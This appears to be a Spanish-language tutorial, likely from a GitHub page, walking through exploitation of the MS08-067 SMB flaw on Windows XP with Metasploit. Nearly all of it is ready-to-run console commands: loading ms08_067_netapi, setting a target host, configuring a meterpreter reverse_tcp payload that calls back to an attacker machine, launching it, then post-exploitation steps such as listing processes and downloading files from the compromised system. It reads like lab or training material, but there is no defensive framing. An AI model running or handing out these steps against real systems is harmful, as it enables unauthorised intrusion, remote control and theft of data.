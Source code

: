 ##### **Paso 1: Buscar el exploit**
Inicia la consola de Metasploit y busca el exploit MS08-067:
```bash
search ms08_067
```
Deberías ver una lista de resultados que incluyen el exploit **ms08_067_netapi**.

##### **Paso 2: Seleccionar el exploit**
Selecciona el exploit con el siguiente comando:
```bash
use exploit/windows/smb/ms08_067_netapi
```

##### **Paso 3: Configurar el objetivo**
Configura la IP del sistema objetivo que deseas atacar. En este caso, el sistema objetivo es un Windows XP vulnerable en la red local:
```bash
set RHOSTS 192.168.1.100
```

##### **Paso 4: Configurar el payload**
Elige el payload que deseas utilizar. En este caso, seleccionamos un shell reverso que conectará el sistema objetivo de vuelta al atacante:
```bash
set payload windows/meterpreter/reverse_tcp
```

##### **Paso 5: Configurar la IP del atacante**
Debes establecer la dirección IP de tu máquina Kali como la IP de escucha (LHOST). Esta es la dirección IP donde la conexión de shell reverso se establecerá:
```bash
set LHOST 192.168.1.10
```

##### **Paso 6: Ejecutar el exploit**
Finalmente, ejecuta el exploit con el comando:
```bash
exploit
```

Si el exploit tiene éxito, verás una conexión establecida con el sistema objetivo y recibirás acceso a una sesión `meterpreter`. Desde aquí, puedes ejecutar una variedad de comandos en el sistema comprometido.

##### **Paso 7: Post-explotación**
Una vez que tengas acceso a la máquina objetivo, puedes realizar diversas acciones, como:
- **Obtener información del sistema**:
  ```bash
  sysinfo
  ```
- **Listar los procesos en ejecución**:
  ```bash
  ps
  ```
- **Descargar archivos**:
  ```bash
  download ruta/al/archivo
  ```
